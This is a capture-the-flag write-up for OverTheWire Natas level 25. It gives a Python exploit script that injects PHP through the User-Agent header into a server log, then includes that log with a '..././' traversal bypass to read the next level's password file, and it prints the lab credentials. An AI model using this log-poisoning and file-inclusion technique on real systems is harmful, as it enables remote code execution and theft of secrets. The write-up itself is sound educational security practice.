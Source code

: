 # Level 25 -> Level 26

```python
import requests

target = 'http://natas25.natas.labs.overthewire.org'
auth = ('natas25', "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws")

cookies = dict()

params = dict(lang='natas_webpass')

headers = {
        "User-Agent": '<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>'
}

r = requests.get(target, auth=auth, params=params, cookies=cookies, headers=headers)
phpsessid = r.cookies['PHPSESSID']
log_file = '/var/www/natas/natas25/logs/natas25_%s.log' % phpsessid
cookies = dict(PHPSESSID=phpsessid)

params = dict(lang=('..././..././..././..././..././' + log_file))
r = requests.get(target, auth=auth, params=params, cookies=cookies, headers=headers)
print(r.text)
```

we change the lang parameter to include a file that doesn't exist in the path so that it triggers the log file  
we inject php code onto the  User Agent header which is stored on to the log file so that when the log file is read, our code executes  
we read the log file using lang parameter by bypassing the directory traversal checks using **..././**  

